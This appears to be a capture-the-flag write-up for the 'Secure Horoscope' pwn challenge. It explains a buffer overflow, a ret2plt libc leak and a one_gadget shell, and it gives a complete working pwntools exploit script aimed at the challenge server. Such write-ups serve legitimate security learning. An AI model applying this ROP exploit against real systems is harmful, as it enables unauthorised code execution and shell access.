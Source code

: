 # Secure Horoscope

## Challenge

Our horoscope developers have pivoted to a more security-focused approach to predicting the future. You won’t find breaking into this one quite so easy!

Connect ```nc sechoroscope.sdc.tf 1337```

[binary](secureHoroscope)

By green beans

## Solution

The program suffers a bufferoverflow vulnerability in ```getInfo()```

```
004007b1  int64_t getInfo()

004007ca      void var_78
004007ca      memset(&var_78, 0, 100)
004007e0      read(fd: 0, buf: &var_78, nbytes: 140)
004007ec      puts(str: &var_78)
004007f8      puts(str: "hm, I'll have to think about wha…")
0040080e      return fflush(fp: stdout)
```

However, we noticed that in the 24 bytes we had for the overflow have some corruption. However, luckily there are 24 bytes from the first ```fgets call``` at ```0x400717```

```
pwndbg> stack

0         0x40080e getInfo+93
f 1 0x4242424242424242
f 2 0x4242424242424242
f 3      0x142424242
f 4 0x4141414141414141
f 5 0x4141414141414141
f 6 0x4141414141414141
f 7         0x40000a

```

So we developed a small chain to ```pop r14, r15, ret``` to remove the corrupted bytes and advanced into the uncorrupted chain. 

```python
stage1 = pop_junk
stage1 += p64(0xdeadbeef)
stage1 += p64(0xbadc0d3)
```

After that we decided to leak libc using ret2_plt

```python
stage0 = pop_rdi
stage0 +=p64(e.got['puts'])
stage0 +=p64(e.plt['puts'])
```

After leaking libc and calculating the base address, we used ```one_gadget```  to execute ```system('/bin/sh\0')```

```
└─# one_gadget -f libc6_2.27-3ubuntu1.5_amd64.so 
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
````

The gadget we chose requried rsp+40 to be null. We padded our overflow with ```p64(0x0)```, which set ```rsp+40 = NULL```

```python
pad = b'6/1/22'
pad += cyclic(34)
pad += p64(0x0)*10 
p.sendline(pad+one_gadget)
```

Finally, putting it all together, our working exploit follows.

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary,checksec=False)
r = ROP(e)

if args.REMOTE:
   libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so',checksec=False)
else:
   libc = ELF('libc6_2.33-6_amd64.so',checksec=False)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('sechoroscope.sdc.tf', 1337)
    else:
        return process(e.path)

p = start()

def ret2_plt():
   pop_junk = p64(0x0400870)
   pop_rdi = p64(0x0400873)

   stage1 = pop_junk
   stage1 += p64(0xdeadbeef)
   stage1 += p64(0xbadc0d3)

   stage0 = pop_rdi
   stage0 +=p64(e.got['puts'])
   stage0 +=p64(e.plt['puts'])
   stage0 += p64(e.sym['main'])

   log.info("Clearing Corrupted Stack")
   p.recvuntil(b'To get started, tell us how you feel')
   p.sendline(stage0)
   p.recvuntil(b'have your very own horoscope')
   p.sendline(b'\n')
   p.recvuntil(b'have your very own horoscope')

   log.info("Leaking Libc; Returning to Main")
   p.sendline(b'6/1/22'+cyclic(114)+stage1)
   p.recvuntil(b'5 business days')
   p.recvline()
   leak=u64(p.recv(6)+b'\x00\x00')
   log.info("Libc Leak (puts): %s" %hex(leak))
   libc.address=leak-libc.sym['puts']
   log.info("Libc base address: %s" %hex(libc.address))

def ret2_onegadget():
   if args.REMOTE:
      one_gadget = p64(libc.address+0x4f302)
   else:
      one_gadget = p64(libc.address+0xcb5d0)

   p.recvuntil(b'have your very own horoscope')
   log.info("Returning to One Gadget")

   pad = b'6/1/22'
   pad += cyclic(34)
   pad += p64(0x0)*10 
   p.sendline(pad+one_gadget)
   p.interactive()

ret2_plt()
ret2_onegadget()
```
